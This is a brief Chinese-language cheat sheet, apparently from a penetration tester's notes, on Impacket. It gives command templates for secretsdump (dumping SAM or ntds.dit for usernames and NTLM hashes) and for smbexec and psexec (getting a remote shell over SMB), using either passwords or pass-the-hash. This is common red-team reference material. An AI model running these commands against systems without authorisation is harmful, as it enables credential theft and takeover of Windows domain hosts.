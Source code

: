 ### 将impacket添加到环境变量

```bash
export PATH=/usr/share/doc/python3-impacket/examples:$PATH
```

#### secretsdump

将SAM文件或ntds.dit文件进行转储，得到用户名以及NTLM Hash，需要域管理员权限

```bash
已知明文密码：secretsdump.py [domain name]/[username]:"[password]"@[ip]
已知NTLM Hash：secretsdump.py -hashes [LM Hash:NTLM Hash] [domain name]/[username]@[ip]
```

#### smbexec

利用smb协议获取靶机shell，需要域管理员权限

```bash
已知明文密码：smbexec.py [domain name]/[username]:"[password]"@[ip]
已知NTLM Hash：smbexec.py -hashes [LM Hash:NTLM Hash] [domain name]/[username]@[ip]
```

#### psexec

利用smb协议获取靶机shell，需要域管理员权限

```bash
已知明文密码：psexec.py [domain name]/[username]:"[password]"@[ip]
已知NTLM Hash：psexec.py -hashes [LM Hash:NTLM Hash] [domain name]/[username]@[ip]
```

